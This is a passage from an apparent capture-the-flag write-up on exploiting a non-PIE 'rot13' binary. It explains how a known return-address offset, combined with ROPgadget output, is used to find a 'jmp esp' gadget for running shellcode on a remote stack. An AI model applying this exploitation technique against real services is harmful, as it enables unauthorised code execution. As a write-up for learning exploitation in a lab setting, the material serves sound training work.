 ![](img/gdb3.png)

Great, we now know exactly where to put our return address.  The problem is, we have no idea what the stack address on the remote server is going to be, it's random.  However, since this binary isn't compiled with PIE (Position Independent Execution), we know the address of where the ELF binary itself will be loaded at.

This is where ROPgadget comes in handy!  If we can find a gadget that will allow us to jump onto the stack or jump to the register pointing to the stack, then we can execute shellcode.

```
$ ROPgadget --binary ../distFiles/rot13 
Gadgets information
============================================================
0x080487f1 : adc al, 0x41 ; ret
0x0804843a : adc al, 0x68 ; and al, 0xa0 ; add al, 8 ; call eax
0x08048486 : adc byte ptr [eax + 0x68], dl ; and al, 0xa0 ; add al, 8 ; call edx
0x08048444 : adc cl, cl ; ret
0x080485e8 : add al, 0x24 ; ret
0x080484b8 : add al, 8 ; add ecx, ecx ; ret
0x0804843e : add al, 8 ; call eax
0x0804848b : add al, 8 ; call edx
0x08048575 : add bh, al ; ret 0xa030
0x080484e2 : add bh, bh ; in al, 0x90 ; pop ebp ; ret
0x0804844f : add bl, dh ; ret
0x080484dd : add byte ptr [0x1b22], al ; jmp esp
0x08048573 : add byte ptr [eax], al ; add bh, al ; ret 0xa030
0x0804844d : add byte ptr [eax], al ; add bl, dh ; ret
0x0804844c : add byte ptr [eax], al ; add byte ptr [eax], al ; ret
0x080485c4 : add byte ptr [eax], al ; add byte ptr [ecx], bh ; ret 0xc97c
0x08048191 : add byte ptr [eax], al ; add byte ptr [edi + 0x4e], al ; push ebp ; add byte ptr [ecx], bl ; ret 0x1048
0x080484dc : add byte ptr [eax], al ; add eax, 0x1b22 ; jmp esp
0x0804834c : add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
0x08048192 : add byte ptr [eax], al ; inc edi ; dec esi ; push ebp ; add byte ptr [ecx], bl ; ret 0x1048
```